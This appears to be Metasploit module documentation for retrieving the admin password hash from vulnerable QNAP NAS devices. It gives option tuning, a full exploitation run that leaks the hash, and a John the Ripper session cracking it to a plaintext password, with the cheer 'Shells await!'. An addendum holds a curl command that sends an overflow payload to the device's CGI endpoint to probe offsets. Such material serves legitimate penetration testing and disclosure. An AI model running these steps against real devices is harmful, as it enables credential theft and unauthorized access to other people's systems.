 ## Introduction

This is going to be a quick rundown of how to use this module to
retrieve the admin hash from a vulnerable QNAP device.

The defaults I've set should be adequate for blind exploitation, but you
may need to tweak them for your target.

## Options

### OFFSET_START

You want to set this to a value where you can see a backtrace. Set this
lower if you're not sure. Default is 2000.

### OFFSET_END

Set this option to a value where you don't see a backtrace. Set this
higher if you're not sure. Default is 5000.

### RETRIES

Sometimes the attack won't be successful on the first run. This option
controls how many times to retry the attack. Default is 10.

### VERBOSE

This will tell you how long the binary search took and how many requests
were sent during exploitation. Default is false.

## Usage

Let's run through a successful exploitation. I've tailored the options
to my target. Your target may differ.

```
msf > use auxiliary/gather/qnap_backtrace_admin_hash 
msf auxiliary(qnap_backtrace_admin_hash) > set rhost [redacted]
rhost => [redacted]
msf auxiliary(qnap_backtrace_admin_hash) > set offset_end 3000
offset_end => 3000
msf auxiliary(qnap_backtrace_admin_hash) > set verbose true
verbose => true
msf auxiliary(qnap_backtrace_admin_hash) > run

[*] QNAP [redacted] detected
[*] Binary search of 2000-3000 completed in 5.02417s
[*] Admin hash found at 0x8068646 with offset 2920
[+] Hopefully this is your hash: $1$$vnSTnHkIF96nN6kxQkZrf.
[*] 11 HTTP requests were sent during module run
[*] Auxiliary module execution completed
msf auxiliary(qnap_backtrace_admin_hash) > 
```

We got lucky on this run. Sometimes it takes a couple retries to get the
hash. Now what do we do with it...

```
wvu@kharak:~$ john --wordlist --rules --format=md5crypt shadow
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 SSSE3 20x])
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter2          (admin)
1g 0:00:00:01 DONE (2017-03-15 04:41) 0.8928g/s 24839p/s 24839c/s
24839C/s flipper2..mercury2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$ 
```

Cracked! Now you can log in to the device. Shells await!

## Addendum

I used this `curl` command to test for offsets:

```
curl -kv "https://[redacted]/cgi-bin/cgi.cgi?u=admin&p=$(perl -e 'print "A"x2000' | base64 -w 0)"
```
